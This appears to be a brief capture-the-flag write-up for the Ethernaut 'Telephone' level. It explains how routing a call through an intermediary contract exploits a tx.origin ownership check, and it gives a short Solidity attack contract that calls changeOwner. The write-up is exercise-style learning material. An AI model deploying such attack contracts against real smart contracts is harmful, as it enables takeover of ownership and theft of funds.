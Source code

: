 ## Telephone

1. This one is easy just do it like previous one and call changeOwner... so when you use AttackContract to attack on changeOwner the msg.sender will be AttackContract and self address will be tx.origin => also this tx.origin can be used to do phishing in similar way if someone uses it.
2. success

> putting the code bc i put some effort in writing it in remix

```solidity
interface Telephone {
    function changeOwner(address _owner) external;
}

contract AttackContract {
    Telephone public attack;

    constructor(address _address){
        attack = Telephone(_address);
    }

    function funcAttack(address _newO) public {
        attack.changeOwner(_newO);
    }
}
```
